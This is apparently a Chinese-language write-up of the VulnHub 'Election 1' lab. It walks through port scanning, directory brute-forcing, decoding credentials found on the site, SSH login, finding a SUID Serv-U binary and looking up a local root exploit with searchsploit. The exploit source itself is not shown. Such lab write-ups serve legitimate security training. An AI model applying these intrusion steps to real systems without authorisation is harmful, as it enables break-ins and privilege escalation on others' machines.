




# Election 1

> https://download.vulnhub.com/election/election.7z

靶场IP：``

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.231                                                                                                                                                                                                                                                                                  1 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-11 10:14 EDT
Nmap scan report for 192.168.32.231
Host is up (0.00067s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 00:0C:29:42:1E:9B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.11 seconds

```

访问80端口



爆破目录，发现`/election`目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.32.231 -x php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.231
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2022/09/11 10:15:44 Starting gobuster in directory enumeration mode
===============================================================
/javascript           (Status: 301) [Size: 321] [--> http://192.168.32.231/javascript/]
/robots.txt           (Status: 200) [Size: 30]                                         
/election             (Status: 301) [Size: 319] [--> http://192.168.32.231/election/]  
/phpmyadmin           (Status: 301) [Size: 321] [--> http://192.168.32.231/phpmyadmin/]

```


继续爆破

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.32.231/election -x php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.231/election
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2022/09/11 10:17:16 Starting gobuster in directory enumeration mode
===============================================================
/media                (Status: 301) [Size: 325] [--> http://192.168.32.231/election/media/]
/themes               (Status: 301) [Size: 326] [--> http://192.168.32.231/election/themes/]
/data                 (Status: 301) [Size: 324] [--> http://192.168.32.231/election/data/]  
/index.php            (Status: 200) [Size: 7003]                                            
/admin                (Status: 301) [Size: 325] [--> http://192.168.32.231/election/admin/] 
/lib                  (Status: 301) [Size: 323] [--> http://192.168.32.231/election/lib/]   
/languages            (Status: 301) [Size: 329] [--> http://192.168.32.231/election/languages/]
/js                   (Status: 301) [Size: 322] [--> http://192.168.32.231/election/js/]       
/card.php             (Status: 200) [Size: 1935]   
```

访问`card.php`，发现一串二进制字符

```
┌──(root💀kali)-[/tmp]
└─# curl http://192.168.32.231/election/card.php
00110000 00110001 00110001 00110001 00110000 00110001 00110000 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110001 00110001 00110000 00110000 00110001 00110000 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110001 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110000 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110001 00110000 00110000 00100000 00110000 00110000 00110000 00110000 00110001 00110000 00110001 00110000 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110000 00110000 00100000 00110000 00110001 00110001 00110000 00110000 00110000 00110000 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110001 00110001 00110000 00110001 00110000 00100000 00110000 00110001 00110000 00110001 00110001 00110000 00110001 00110000 00100000 00110000 00110001 00110001 00110001 00110001 00110000 00110000 00110000 00100000 00110000 00110001 00110001 00110000 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110000 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110000 00110000 00110000 00110000 00110001 00100000 00110000 00110001 00110000 00110000 00110000 00110000 00110000 00110000 00100000 00110000 00110000 00110001 00110000 00110000 00110000 00110001 00110001

```

解码

```
user:1234
pass:Zxc123!@#
```

登录后台



在日志找到账号和密码



```
username : love
password : P@$$w0rd@123
```

ssh登录

```
┌──(root💀kali)-[/tmp]
└─# ssh love@192.168.32.231              
The authenticity of host '192.168.32.231 (192.168.32.231)' can't be established.
ECDSA key fingerprint is SHA256:erz9C9WEWhhV5KMnnpxYEiDQ015ORbFLU/4HNeyevdQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.32.231' (ECDSA) to the list of known hosts.
love@192.168.32.231's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

74 packages can be updated.
28 updates are security updates.

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Thu Apr  9 23:19:28 2020 from 192.168.1.5
love@election:~$ id
uid=1000(love) gid=1000(love) groups=1000(love),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare)
love@election:~$ sudo -l
[sudo] password for love: 
Sorry, user love may not run sudo on election.

```

在检查 SUID 文件时，`/usr/local/Serv-U/Serv-U`对我来说似乎很可疑。

```
love@election:~$ find / -perm -4000 2>/dev/null
/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/bin/fusermount
/bin/ping
/bin/umount
/bin/mount
/bin/su
/home/love
```

我检查了`/usr/local/Serv-U`目录并找到了 Serv-U 版本

```
love@election:~$ cd /usr/local/Serv-U
love@election:/usr/local/Serv-U$ cat Serv-U-StartupLog.txt 
[01] Mon 12Sep22 03:43:34 - Serv-U File Server (64-bit) - Version 15.1 (15.1.6.25) - (C) 2017 SolarWinds Worldwide, LLC.  All rights reserved.
[01] Mon 12Sep22 03:43:34 - Build Date: Wednesday, November, 29, 2017 11:28 AM
[01] Mon 12Sep22 03:43:34 - Operating System: Linux 64-bit; Version: 5.3.0-46-generic
[01] Mon 12Sep22 03:43:34 - Loaded graphics library.
[01] Mon 12Sep22 03:43:34 - Unable to load ODBC database libraries.  Install package "unixODBC" to use a database within Serv-U.
[01] Mon 12Sep22 03:43:34 - Loaded SSL/TLS libraries.
[01] Mon 12Sep22 03:43:34 - Loaded SQLite library.
[01] Mon 12Sep22 03:43:34 - FIPS 140-2 mode is OFF.
[01] Mon 12Sep22 03:43:34 - LICENSE: Running beyond trial period.  Serv-U will no longer accept connections.
[01] Mon 12Sep22 03:43:34 - Socket subsystem initialized.
[01] Mon 12Sep22 03:43:34 - HTTP server listening on port number 43958, IP 127.0.0.1
[01] Mon 12Sep22 03:43:34 - HTTP server listening on port number 43958, IP ::1

```

这是我在 searchsploit 上发现的一个漏洞。

```
┌──(root💀kali)-[/tmp]
└─# searchsploit Serv-U 15.1
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                                                                                                             |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)                                                                                                                                                                                                                                | linux/local/47009.c
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (2)                                                                                                                                                                                                                                | multiple/local/47173.sh
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

我转移`47009.c`到服务器并通过执行我们获得root访问权限。


